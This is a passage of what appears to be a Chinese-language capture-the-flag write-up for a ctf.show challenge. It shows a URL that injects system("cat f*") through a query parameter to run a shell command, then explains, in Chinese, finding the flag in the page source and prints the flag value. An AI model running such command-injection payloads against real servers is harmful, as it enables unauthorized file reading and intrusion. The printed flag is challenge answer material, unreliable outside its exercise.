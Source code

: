 ```php
http://21631e8d-00f2-42ec-991a-0bc5b5d7d661.challenge.ctf.show/?c=system("cat f*");
```

<figure><img src="../.gitbook/assets/image 3.png" alt=""><figcaption></figcaption></figure>

然后我们发现我们页面没有显示，可能是没有php代码，所以我们查看源码，发现flag。

```php
$flag = 'ctfshow{2d67c35d-5ae0-4429-88d3-53be43c7a618}';
```

<figure><img src="../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>
